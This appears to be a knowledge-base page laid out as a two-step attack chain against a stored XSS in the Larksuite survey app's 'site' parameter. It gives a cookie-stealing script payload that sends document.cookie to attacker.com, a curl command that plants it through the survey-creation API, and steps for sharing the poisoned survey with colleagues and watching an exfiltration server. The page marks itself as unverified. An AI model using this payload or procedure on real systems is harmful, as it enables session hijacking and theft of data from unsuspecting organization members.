

---
tags:
  - xss
  - stored-xss
  - larksuite
  - survey-app
  - session-hijacking
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Inject-Malicious-Payload-into-Larksuite-Survey-Site-Parameter]]'
  - '[[procedures/Trigger-XSS-Execution-on-Survey-View]]'
step_count: 2
techniques:
  - '[[JavaScript]]'
updated_at: '2025-12-14T03:16:37.534Z'
description: >-
  A multi-stage attack exploiting a stored XSS vulnerability in the Larksuite
  survey app to inject malicious JavaScript via the 'site' parameter, enabling
  execution when organization members view the survey for data theft or session
  hijacking.
skill_level: intermediate
impact_level: medium
id: 06851357-c38e-4f07-9fff-e90205e14f95
validated: true
mitre_tactics:
  - '[[Execution]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Stored XSS in Larksuite Survey App via Site Parameter Leading to Session Hijacking

Multi-stage attack chain demonstrating exploitation of a stored XSS vulnerability in the Larksuite survey app, where malicious JavaScript is injected via the 'site' parameter and persists for execution on victim views, potentially leading to data theft or session hijacking within an organization.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools or [[commands/curl-inject-xss-payload]]

### Target Environment

- Larksuite platform (web-based)
- Access to create surveys in the survey app
- No specific ports required; operates over HTTPS

### Initial Access Requirements

- Authenticated access to Larksuite as an organization member
- Ability to create and share surveys
- No prior network position needed beyond standard web access

## Detailed Attack Procedures

### Step 1: Payload Injection and Storage
procedure: [[procedures/Inject-Malicious-Payload-into-Larksuite-Survey-Site-Parameter]]

**Objective**: Inject a malicious JavaScript payload into the 'site' parameter during survey creation to store it persistently on the server.

**Instructions**: Use a tool like curl to submit a survey creation request with the payload in the 'site' parameter, or manually via the web interface. For example, craft a payload like `<script>alert('XSS');</script>` or more advanced for cookie theft: `<script>document.location='http://attacker.com/steal?cookie='+document.cookie;</script>`.

Execute [[commands/curl-inject-xss-payload]] to send the request:

```bash
curl -X POST 'https://larksuite.com/api/survey/create' \
  -H 'Authorization: Bearer YOUR_TOKEN' \
  -d '{"site": "<script>document.location=\'http://attacker.com/steal?cookie=\' + document.cookie;</script>"}'
```

Then, share the survey link with organization members.

**Expected Output**: Survey created successfully with ID returned in response, payload stored without sanitization.

**Success Indicators**:
- Survey creation API responds with 200 OK and survey ID
- Payload not stripped (verify by viewing source in survey preview)

### Step 2: Trigger Execution on Victim View
procedure: [[procedures/Trigger-XSS-Execution-on-Survey-View]]

**Objective**: Have a victim (organization member) access the survey, triggering the stored payload to execute in their browser context.

**Instructions**: Share the survey URL via email, chat, or organization channel. When the victim opens it, the 'site' parameter renders the unsanitized content, executing the JavaScript.

No specific command needed; monitor your exfiltration server for incoming requests from the payload.

**Expected Output**: JavaScript executes in victim's browser, sending data (e.g., cookies) to attacker's server.

**Success Indicators**:
- Attacker server receives stolen data or session tokens
- Victim's browser shows alert or network request to attacker domain (if testing with benign payload)

## Attack Chain Summary

### Key Achievements

1. Successful injection and storage of XSS payload via 'site' parameter
2. Persistent execution on survey views by organization members
3. Potential for session hijacking or data theft within the organization

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
